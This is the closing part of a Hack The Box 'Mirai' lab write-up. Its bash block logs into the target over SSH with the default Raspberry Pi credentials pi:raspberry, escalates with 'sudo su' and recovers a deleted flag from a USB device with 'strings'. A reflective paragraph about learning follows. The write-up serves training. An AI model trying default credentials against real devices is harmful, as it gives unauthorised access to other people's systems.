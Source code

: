 ```bash
# http://mirai.htb/admin/index.php?login
# pi:raspberry

ssh pi@10.10.10.48
whoami
hostname -I

export TERM=xterm
uname -a
lsb_release -a
id
groups
# sudo
sudo su

cat root.txt
# I lost my original root.txt! I think I may have a backup on my USB stick...

man df
# df - report file system space usage

df -h
# /dev/sdb        8.7M   93K  7.9M   2% /media/usbstick

man strings
# strings - print the sequences of printable characters in files

strings /dev/sdb
```

<br />
<img src="{{ site.img_path }}/mirai_writeup/Mirai_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/mirai_writeup/Mirai_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/mirai_writeup/Mirai_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/mirai_writeup/Mirai_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/mirai_writeup/Mirai_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/mirai_writeup/Mirai_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/mirai_writeup/Mirai_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> Another **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** machine that I succeed in **engaging**, which does not represent much complexity but that I always take advantage of to learn new vulnerabilities and technologies. As I am very new in this field, for me everything is unknown and I'm passionate about learning new techniques to engage more and more complex labs. The **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** platform is my favorite because it allows me to **grow professionally** and **have fun** at the **same time** with excellent machines, whose configuration is made by professionals who share their knowledge. Now I will continue my learning with the next lab without forgetting to kill the **Mirai**.

<br /><br />
<img src="{{ site.img_path }}/mirai_writeup/Mirai_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
